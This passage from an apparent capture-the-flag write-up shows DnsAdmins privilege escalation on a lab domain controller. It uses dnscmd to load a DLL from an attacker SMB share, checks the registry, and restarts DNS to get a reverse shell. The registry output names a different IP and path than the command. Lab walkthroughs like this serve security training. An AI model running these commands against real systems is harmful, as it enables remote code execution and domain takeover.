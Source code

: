 Run the dnscmd (don't be worried if you don't see anything contact your smbserver, it's not meant to until you restart dns)

```jsx
dnscmd resolute.megabank.local /config /serverlevelplugindll \\10.10.14.51\exploit\privesc.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Check that the dll has appeared in the registry

```jsx
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

ServerLevelPluginDll : \\10.10.14.58\SHARE\exploit.dll
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS
PSChildName          : Parameters
PSDrive              : HKLM
PSProvider           : Microsoft.PowerShell.Core\Registry
```

Stop and start dns

```jsx
sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 576
        FLAGS              :
```

We should now see something connect to the smbserver and recieve a reverse shell on the listener
